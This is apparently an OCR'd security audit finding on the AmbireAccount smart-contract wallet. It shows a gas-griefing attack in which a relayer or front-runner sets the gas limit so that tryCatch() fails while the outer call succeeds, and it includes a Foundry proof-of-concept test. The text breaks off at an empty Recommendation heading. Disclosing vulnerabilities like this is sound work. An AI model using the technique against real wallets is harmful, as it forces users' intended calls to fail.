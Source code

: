 A malicious relayer, or a malicious actor that front-runs the transaction, can carefully choose the gas limit to make the call to `tryCatch()` fail due out of gas, while still saving some gas in the main context to continue execution. Even if the underlying call in `tryCatch()` would succeed, an attacker can force its failure while the main call to the wallet is successfully executed.

### Proof of Concept

The following test reproduces the attack. The user creates a transaction to execute a call using `tryCatch()` to a function of the `TestTryCatch` contract, which simulates some operations that consume gas. The attacker then executes the bundle by carefully choosing the gas limit (450,000 units of gas in this case) so that the call to `TestTryCatch` fails due to out of gas, but the main call to `execute()` in the wallet (here simplified by using `executeBySender()` to avoid signatures) gets correctly executed.

Note: the snippet shows only the relevant code for the test. Full test file can be found [here](https://gist.github.com/romeroadrian/535a969c96e0a6f78781287bd0931b6a).

```solidity
contract TestTryCatch {
    uint256[20] public foo;

    function test() external {
        // simulate expensive operation
        for (uint256 index = 0; index < 20; index++) {
            foo[index] = index + 1;
        }
    }
}

function test_AmbireAccount_ForceFailTryCatch() public {
    address user = makeAddr("user");

    address[] memory addrs = new address[](1);
    addrs[0] = user;
    AmbireAccount account = new AmbireAccount(addrs);

    TestTryCatch testTryCatch = new TestTryCatch();

    AmbireAccount.Transaction[] memory txns = new AmbireAccount.Transaction[](1);
    txns[0].to = address(account);
    txns[0].value = 0;
    txns[0].data = abi.encodeWithSelector(
        AmbireAccount.tryCatch.selector,
        address(testTryCatch),
        uint256(0),
        abi.encodeWithSelector(TestTryCatch.test.selector)
    );

    // This should actually be a call to "execute", we simplify the case using "executeBySender"
    // to avoid the complexity of providing a signature. Core issue remains the same.
    vm.expectEmit(true, false, false, false);
    emit LogErr(address(testTryCatch), 0, "", "");
    vm.prank(user);
    account.executeBySender{gas: 450_000}(txns);

    // assert call to TestTryCatch failed
    assertEq(testTryCatch.foo(0), 0);
}
```
### Recommendation
